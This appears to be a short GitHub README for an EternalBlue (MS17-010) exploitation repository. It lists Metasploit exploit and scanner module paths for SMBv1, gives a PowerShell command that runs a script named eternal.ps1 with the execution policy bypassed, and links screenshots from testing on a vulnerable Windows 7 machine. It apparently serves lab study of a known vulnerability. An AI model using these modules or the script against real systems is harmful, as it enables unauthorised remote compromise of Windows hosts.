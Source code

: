 # eternal_blue
eternal-blue vulnerability aslo known as MS_17_010

# Exploit smb-v1.0 using metasploit-framework

exploit/windows/smb/ms17_010_eternalblue

exploit/windows/smb/ms17_010_psexec

auxiliary/scanner/smb/smb_ms17_010




# Run the script

    powershell.exe -ExecutionPolicy ByPass -File eternal.ps1
    
![usage](https://github.com/CIRKLARE/eternal_blue/blob/main/useage.png)


#  Testing in vulnerable machine


![testing](https://github.com/CIRKLARE/eternal_blue/blob/main/win7.PNG)


